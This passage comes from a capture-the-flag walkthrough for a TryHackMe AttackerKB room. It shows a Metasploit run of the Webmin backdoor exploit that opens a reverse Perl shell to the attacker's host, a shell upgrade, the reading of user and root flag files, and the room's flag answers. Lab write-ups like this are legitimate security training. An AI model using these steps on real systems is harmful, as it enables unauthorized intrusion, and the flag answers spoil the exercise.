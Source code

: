 `SSL false no Negotiate SSL/TLS for outgoing connections`

4. Run the exploit. What is the user flag?

```
msf5 exploit(linux/http/webmin_backdoor) > run

[*] Started reverse TCP handler on 10.8.106.222:4444
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.8.106.222:4444 -> 10.10.129.211:37060) at 2020-09-26 15:26:45 +0200
```

```
python -c "import pty; pty.spawn('/bin/bash')"
```

```
root@source:/usr/share/webmin/# find / -name user.txt
find / -name user.txt
/home/dark/user.txt
root@source:/usr/share/webmin/# cat /home/dark/user.txt
cat /home/dark/user.txt
THM{V0N318*****SUPPLY_CHAIN_COMPROMISE}
root@source:/usr/share/webmin/# cat /root/root.txt
cat /root/root.txt
THM{V0N318*****UPDATE_YOUR_INSTALL}
```

`THM{V0N318*****SUPPLY_CHAIN_COMPROMISE12**123:))}`

5. How about the root flag?

`THM{V0N318*****UPDATE_YOUR_INSTALL12**123:))}`

6. Once you've completed gaining the root flag, move onto the fifth and final task.

## Going Further

Want to get even more out of AttackerKB? Check out the AKB Explorer by [Horshark](https://tryhackme.com/p/Horshark)! Written in python, AKB Explorer provides similar functionality to Searchsploit, expanded to encompass the features of AKB. Using this tool, you can search by name, CVE, and username for posts! Check it out here: [Link](https://github.com/horshark/akb-explorer)

1. Read the above and keep learning!

`No answer needed`

